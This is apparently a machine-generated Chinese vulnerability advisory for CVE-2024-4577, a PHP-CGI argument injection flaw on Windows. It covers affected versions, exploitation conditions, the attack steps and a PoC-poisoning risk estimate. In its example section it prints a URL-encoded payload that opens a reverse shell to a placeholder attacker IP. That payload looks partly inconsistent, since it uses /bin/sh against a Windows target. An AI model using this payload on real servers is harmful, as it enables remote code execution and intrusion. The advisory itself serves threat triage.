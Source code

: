 ## CVE-2024-4577 PHP-CGI Argument Injection

**漏洞编号:** CVE-2024-4577

**漏洞类型:** OS Command Injection

**影响应用:** PHP

**危害等级:** 高危，可能导致远程代码执行

**影响版本:** PHP 8.1.* before 8.1.29, 8.2.* before 8.2.20, 8.3.* before 8.3.8

**利用条件:** Windows系统，运行在CGI模式下，系统使用特定的代码页（Best-Fit），且使用Apache服务器。

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2024-4577是一个PHP-CGI中的OS命令注入漏洞。当PHP在Windows上以CGI模式运行时，如果系统配置为使用某些代码页，Windows可能会使用“Best-Fit”行为来替换传递给Win32 API函数的命令行中的字符。PHP CGI模块可能会错误地将这些字符解释为PHP选项，从而允许恶意用户将选项传递给正在运行的PHP二进制文件，从而泄露脚本的源代码或在服务器上运行任意PHP代码。

**有效性：**
从提供的漏洞库信息和搜索结果来看，该漏洞已被广泛利用，并且有公开的PoC代码。Akamai等机构已观察到实际利用案例。因此，认为该漏洞的PoC是有效的。

**投毒风险：**
提供的代码片段是漏洞信息的JSON格式，不包含任何可执行代码。因此，直接从这个JSON文件判断投毒风险是不可能的。需要分析具体的利用代码才能判断。考虑到Github上存在大量的POC, 假设攻击者在代码中添加了恶意代码，如反弹shell或下载执行恶意文件等，有一定的投毒可能性，估算投毒风险为10%。

**利用方式：**
利用方式主要包括以下步骤：
1.  **确定目标：** 找到运行在Windows上，且以CGI模式运行的PHP服务器，版本在受影响范围内 (PHP 8.1.* before 8.1.29, 8.2.* before 8.2.20, 8.3.* before 8.3.8)。需要特别注意的是，apache服务器是必要条件之一
2.  **构造恶意请求：** 构造包含恶意PHP选项的HTTP请求。利用Windows的“Best-Fit”字符转换，将特殊字符转换为PHP选项，例如`-d`选项可以用来设置PHP配置项，`-r`选项可以直接执行PHP代码。
3.  **执行任意代码：** 通过`-d`或`-r`选项，执行任意PHP代码，例如执行`system()`函数来执行系统命令，或者写入webshell文件到服务器。

**示例：**
`?%AA-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input -r+%24sock%3dfsockopen(%22attacker_ip%22%2c1337)%3bwhile(%21feof(%24sock))%7b%24data.%3dfread(%24sock%2c1024)%3b%7d%24shell%3dshell_exec(%22/bin/sh+-i%22)%3bfwrite(%24sock%2c%24shell)%3b`

此示例中， `%AA` 被转换为 `-` ，然后使用`-d` 和 `-r`执行任意代码，建立反弹shell连接到攻击者的IP地址和端口。

**项目地址:** [Entropt/CVE-2024-4577_Analysis](https://github.com/Entropt/CVE-2024-4577_Analysis)

**漏洞详情:** [CVE-2024-4577](https://nvd.nist.gov/vuln/detail/CVE-2024-4577)